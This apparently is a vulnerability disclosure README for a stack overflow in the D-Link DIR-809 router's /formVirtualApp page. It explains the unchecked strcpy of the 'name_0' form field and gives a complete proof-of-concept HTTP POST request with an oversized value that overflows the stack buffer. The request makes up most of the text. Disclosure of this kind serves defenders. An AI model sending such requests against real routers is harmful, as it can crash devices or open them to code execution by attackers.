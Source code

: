 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/formVirtualApp` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

 ## Vulnerability description

In the function `FUN_8004776c` ( page `/formVirtualApp` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"name_%d"` in the http post request which is completely under the attacker's control. 
2. The string `pcVar2` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `local_f8`. 

![2021-05-10_10h22_15](README/2021-05-10_10h22_15.png)



## PoC

``` 
POST /formVirtualApp.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 3894
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/Advanced/Virtual_Server_Server.asp?t=1620547787744
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=jFLW3efjuL
Connection: close

settingsChanged=1&curTime=1620547811394&HNAP_AUTH=A4C3C6EB82B72B04DB58611805409259+1620547811&submit-url=%2FAdvanced%2FVirtual_Server_Server.asp&index=1&enabled_0=0&used_0=0&name_0=123123123123123*0x200&default_virtual_servers_0=-1&public_port_0=8999&ip_0=192.168.0.21&computer_list_ipaddr_select_0=-1&private_port_0=8999&protocol_0=1&index=2&enabled_1=0&used_1=0&name_1=&default_virtual_servers_1=-1&public_port_1=&ip_1=&computer_list_ipaddr_select_1=-1&private_port_1=&protocol_1=1&index=3&enabled_2=0&used_2=0&name_2=&default_virtual_servers_2=-1&public_port_2=&ip_2=&computer_list_ipaddr_select_2=-1&private_port_2=&protocol_2=1&index=4&enabled_3=0&used_3=0&name_3=&default_virtual_servers_3=-1&public_port_3=&ip_3=&computer_list_ipaddr_select_3=-1&private_port_3=&protocol_3=1&index=5&enabled_4=0&used_4=0&name_4=&default_virtual_servers_4=-1&public_port_4=&ip_4=&computer_list_ipaddr_select_4=-1&private_port_4=&protocol_4=1&index=6&enabled_5=0&used_5=0&name_5=&default_virtual_servers_5=-1&public_port_5=&ip_5=&computer_list_ipaddr_select_5=-1&private_port_5=&protocol_5=1&index=7&enabled_6=0&used_6=0&name_6=&default_virtual_servers_6=-1&public_port_6=&ip_6=&computer_list_ipaddr_select_6=-1&private_port_6=&protocol_6=1&index=8&enabled_7=0&used_7=0&name_7=&default_virtual_servers_7=-1&public_port_7=&ip_7=&computer_list_ipaddr_select_7=-1&private_port_7=&protocol_7=1&index=9&enabled_8=0&used_8=0&name_8=&default_virtual_servers_8=-1&public_port_8=&ip_8=&computer_list_ipaddr_select_8=-1&private_port_8=&protocol_8=1&index=10&enabled_9=0&used_9=0&name_9=&default_virtual_servers_9=-1&public_port_9=&ip_9=&computer_list_ipaddr_select_9=-1&private_port_9=&protocol_9=1&index=11&enabled_10=0&used_10=0&name_10=&default_virtual_servers_10=-1&public_port_10=&ip_10=&computer_list_ipaddr_select_10=-1&private_port_10=&protocol_10=1&index=12&enabled_11=0&used_11=0&name_11=&default_virtual_servers_11=-1&public_port_11=&ip_11=&computer_list_ipaddr_select_11=-1&private_port_11=&protocol_11=1&index=13&enabled_12=0&used_12=0&name_12=&default_virtual_servers_12=-1&public_port_12=&ip_12=&computer_list_ipaddr_select_12=-1&private_port_12=&protocol_12=1&index=14&enabled_13=0&used_13=0&name_13=&default_virtual_servers_13=-1&public_port_13=&ip_13=&computer_list_ipaddr_select_13=-1&private_port_13=&protocol_13=1&index=15&enabled_14=0&used_14=0&name_14=&default_virtual_servers_14=-1&public_port_14=&ip_14=&computer_list_ipaddr_select_14=-1&private_port_14=&protocol_14=1&index=16&enabled_15=0&used_15=0&name_15=&default_virtual_servers_15=-1&public_port_15=&ip_15=&computer_list_ipaddr_select_15=-1&private_port_15=&protocol_15=1&index=17&enabled_16=0&used_16=0&name_16=&default_virtual_servers_16=-1&public_port_16=&ip_16=&computer_list_ipaddr_select_16=-1&private_port_16=&protocol_16=1&index=18&enabled_17=0&used_17=0&name_17=&default_virtual_servers_17=-1&public_port_17=&ip_17=&computer_list_ipaddr_select_17=-1&private_port_17=&protocol_17=1&index=19&enabled_18=0&used_18=0&name_18=&default_virtual_servers_18=-1&public_port_18=&ip_18=&computer_list_ipaddr_select_18=-1&private_port_18=&protocol_18=1&index=20&enabled_19=0&used_19=0&name_19=&default_virtual_servers_19=0&public_port_19=&ip_19=&computer_list_ipaddr_select_19=-1&private_port_19=&protocol_19=1&index=21&enabled_20=0&used_20=0&name_20=&default_virtual_servers_20=0&public_port_20=&ip_20=&computer_list_ipaddr_select_20=-1&private_port_20=&protocol_20=1&index=22&enabled_21=0&used_21=0&name_21=&default_virtual_servers_21=-1&public_port_21=&ip_21=&computer_list_ipaddr_select_21=-1&private_port_21=&protocol_21=1&index=23&enabled_22=0&used_22=0&name_22=&default_virtual_servers_22=-1&public_port_22=&ip_22=&computer_list_ipaddr_select_22=-1&private_port_22=&protocol_22=1&index=24&enabled_23=0&used_23=0&name_23=&default_virtual_servers_23=-1&public_port_23=&ip_23=&computer_list_ipaddr_select_23=-1&private_port_23=&protocol_23=1

```





## Acknowledgment

Credit to  [@Yu3H0](https://github.com/Yu3H0/), [@peanuts62](https://github.com/peanuts62), [@Lnkvct](https://github.com/Lnkvct/IoT-poc) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

